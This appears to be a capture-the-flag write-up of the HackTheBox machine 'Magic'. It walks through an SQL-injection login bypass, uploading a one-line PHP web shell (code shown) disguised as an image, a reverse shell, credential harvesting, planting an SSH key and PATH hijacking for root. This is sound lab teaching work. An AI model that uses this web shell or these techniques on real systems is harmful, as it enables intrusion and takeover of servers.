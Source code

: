 ```yaml
---
layout: post
title: "HackTheBox Magic"
date: 2020-05-17
description: "Writeup of Magic HackTheBox machine"
tag: CTF
---
```


This time we are going to solve a fairly easy hack the box machine. The vulnerabilities of this machine are quite common and it is good for practicing to draw first blood.

### Information gathering

As always we will start with nmap listing the services running on the machine (we can see that there is only one SSH service and one web server).

![](/images/posts/Magic/img1.png "Nmap scan")

The web application doesn't seem to have many features, without authentication we see only static content. 

![](/images/posts/Magic/img2.png "Web page")

As we have no credentials to enter the application, we will try to bypass the login using SQL injection. We will test with the administrator user along with the payload `';--` that allows us to break the query in case of injection.

![](/images/posts/Magic/img3.png "Page login SQL injection")

Inside the web application we find a functionality to upload the images that we have seen in the unauthenticated part.

![](/images/posts/Magic/img4.png "Upload functionality")

It looks like with this functionality we will be able to upload a web shell. Let's try the following basic PHP web shell inside an image and modify the file extension to make it executable.

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;}?>
```

![](/images/posts/Magic/img5.png "Upload webshell")

### Gaining foothold

With the web shell successfully uploaded, we will try to open a reverse shell in PHP to make it more comfortable to interact with the machine. We see that the shell opens with web server permissions (**www-data**) in the uploads directory.

![](/images/posts/Magic/img6.png "Open reverse connection")

Once we have access to the machine and in the application directory, we are going to walk around and look for files that may give us some clues. Bingo! In file `/var/www/Magic/db.php5` we find database credentials.

![](/images/posts/Magic/img7.png "Database credentials")

With the credentials we have just found, we can extract the entire database and see if there is more sensitive information that will allow us to move forward.

![](/images/posts/Magic/img8.png "Dump database")

### Privilege escalation

We see that the machine has another user, so we are going to use the credentials we have found in the database to move horizontally.

![](/images/posts/Magic/img9.png "Change user")

To simplify access to the machine, we are going to add our public SSH key to be able to access without using credentials.

![](/images/posts/Magic/img10.png "SSH key")

![](/images/posts/Magic/img11.png "SSH connection")

We have to keep looking for some way to elevate privileges, so this time we will list the configuration and possible vulnerabilities with [*linPEAS*](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).

![](/images/posts/Magic/img12.png "Upload linPEAS")

The script has found a suspicious file that belongs to **root** and that we, being in the **users** group, can read and execute.

![](/images/posts/Magic/img13.png "linPEAS finding")

Analyzing the file `/bin/sysinfo`, we can see that the binary uses the command *lshw* without specifying the whole path of that executable. This allows us to modify the user's PATH so that the application uses a different executable.

![](/images/posts/Magic/img14.png "Read file and sysinfo")

To perform path hijacking we only have to create a file with the same name containing the command we want to execute (in this case read the root flag), add execution permissions and modify the user's PATH. When we run *sysinfo* again, we see how the *lshw* command has been executed and we find the root flag.

![](/images/posts/Magic/img15.png "Modify path")